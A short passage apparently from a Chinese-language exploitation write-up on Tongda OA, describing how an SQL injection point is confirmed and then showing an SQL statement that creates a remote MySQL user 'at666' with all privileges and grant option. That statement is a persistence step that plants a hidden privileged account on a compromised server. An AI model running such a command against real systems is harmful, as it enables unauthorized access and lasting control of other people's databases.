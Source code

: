 判断注入点 #当字符相等时，不报错，错误时报错

![image-20210409193004810](images/%E9%80%9A%E8%BE%BEOA.assets/image-20210409193004810.png)



通过添加用户at666，密码为abcABC@123

```
grant all privileges ON mysql.* TO 'at666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION
```

![image-20210409194021160](images/%E9%80%9A%E8%BE%BEOA.assets/image-20210409194021160.png)
